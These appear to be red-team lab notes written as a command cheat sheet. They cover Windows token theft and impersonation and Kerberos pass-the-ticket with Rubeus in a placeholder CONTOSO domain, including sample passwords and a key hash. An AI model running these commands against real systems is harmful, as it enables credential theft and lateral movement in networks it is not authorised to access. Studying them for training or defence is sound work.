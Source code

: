 
Token Impersonation
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

```powershell
process_browser            [SYSTEM LEVEL BEACON REQUIRED]

ps
token-store steal 5248
token-store show
token-store use 0 
token-store remove 0
```

```powershell
klist
rev2self
```

PtT
Obtain ticket from med-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:rsteel /domain:CONTOSO.COM /aes256:05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960 /nowrap
```

Inject ticket into process from high-integrity beacon
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\notepad.exe /username:rsteel /domain:CONTOSO.COM /password:FakePass /ticket:[TGT]
```

Steal token
```powershell
token-store steal 5248
token-store use 0 
```

```powershell
klist
rev2self
token-store remove 0
kill [ppid]
```